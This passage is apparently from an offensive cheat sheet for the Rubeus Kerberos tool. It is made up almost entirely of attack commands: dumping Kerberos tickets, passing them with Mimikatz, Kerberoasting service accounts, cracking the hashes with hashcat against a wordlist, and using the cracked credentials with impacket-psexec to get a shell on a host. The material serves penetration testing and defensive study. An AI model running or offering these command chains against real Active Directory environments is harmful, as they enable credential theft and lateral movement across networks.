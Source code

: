 
### Hash Ticket

```powershell
# Generate hash of ticket (for deduplication)
Rubeus.exe hash /ticket:ticket.kirbi
```

---

### Ticket Format Conversion

```powershell
# Rubeus outputs .kirbi format
# Convert to other formats with other tools:

# .kirbi → .ccache (for Linux/Impacket)
impacket-ticketConverter ticket.kirbi ticket.ccache

# .ccache → .kirbi
impacket-ticketConverter ticket.ccache ticket.kirbi
```

---

## Rubeus + Other Tools Integration

### Rubeus + Mimikatz

```powershell
# Rubeus: Get tickets
Rubeus.exe dump /outfile:tickets

# Mimikatz: Pass-the-Ticket
mimikatz.exe
kerberos::ptt ticket.kirbi
```

---

### Rubeus + Impacket (Cross-Platform)

```powershell
# Windows (Rubeus): Kerberoast
Rubeus.exe kerberoast /outfile:hashes.txt

# Copy hashes.txt to Kali

# Kali (Impacket): Crack
hashcat -m 13100 hashes.txt rockyou.txt

# Kali (Impacket): Use creds
impacket-psexec 'CORP/sqlservice:CrackedPass@10.10.10.10'
```

---